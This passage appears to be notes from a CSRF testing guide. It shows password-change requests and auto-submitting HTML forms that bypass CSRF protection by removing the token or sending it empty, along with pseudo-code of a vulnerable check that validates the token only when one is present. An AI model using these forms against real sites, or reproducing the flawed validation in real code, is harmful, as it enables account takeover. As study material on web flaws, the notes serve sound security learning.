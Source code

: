         ```html
        # remove the token
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        (POST request body)
        new_password=abc123
        -------------------------------------------------------------
        <html>
         <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type='submit' value="Submit">
         </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        ----------------------------------------------------------------
        # Empty Parameter
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        (POST request body)
        new_password=abc123&csrf_token=
        ---------------------------------------------------------------------
        <html>
         <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type="text" name="csrf_token" value="">
         <input type='submit' value="Submit">
        </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        --------------------------
        # Expected Code
        def validate_token():
         if (request.csrf_token == session.csrf_token):
        		 pass
         else:
        	 throw_error("CSRF token incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
        	 if request.csrf_token:
        		 validate_token()
        		 execute_action()
        ```
        
    - **Weak Token Integriti ( Reuse token )**
        
